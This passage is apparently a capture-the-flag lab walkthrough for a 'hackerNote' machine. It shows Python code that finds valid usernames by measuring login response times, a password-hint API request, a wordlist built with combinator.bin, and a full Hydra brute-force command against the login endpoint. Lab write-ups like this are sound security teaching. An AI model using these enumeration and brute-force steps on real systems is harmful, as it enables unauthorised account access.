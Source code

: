 Use the timing difference to enumerate valid usernames. You can script timing measurements with Python (requests + time) or use the prewritten exploits at:
https://github.com/NinjaJc01/hackerNoteExploits

Example pseudocode for timing measurement:
```py
start = time.time()
r = requests.post("http://MACHINE_IP/api/user/login", json={"username": user, "password": "invalid!"})
end = time.time()
delta = end - start
```

Repeat over a username list and treat responses close to the maximum observed time as likely valid usernames (e.g., within 10%).

> Pre-made exploits exist in Golang and Python. The Golang one is faster but less reliable; re-run if you get inconsistent results.

**How many usernames from the list are valid?**  
<details><summary><strong>Reveal answer</strong></summary></details>

**What are/is the valid username(s)?**  
<details><summary><strong>Reveal username(s)</strong></summary></details>

---

## 🔐 Task 4 — Attack Passwords

With the valid username, fetch the password hint:

```http
GET /api/user/passwordhint/james
```

The hint: _"my favourite colour and my favourite number"_. Use two small lists (colors + numbers) and combine them with Hashcat Utils' `combinator.bin` to make a compact wordlist:

```bash
./combinator.bin colors.txt numbers.txt > wordlist.txt
wc -l wordlist.txt
# 180
```

Hydra can attack the API (the API accepts either form-encoded or JSON — we'll use http-post-form):
```
hydra -l james -P wordlist.txt MACHINE_IP http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"
```
Result (hidden):
<details><summary><strong>Reveal User Password</strong></summary></details>

SSH password (as noted in the lab):
<details><summary><strong>Reveal SSH password</strong></summary></details>

Login via SSH and retrieve the user flag (hidden):
<details><summary><strong>User Flag</strong></summary></details>

---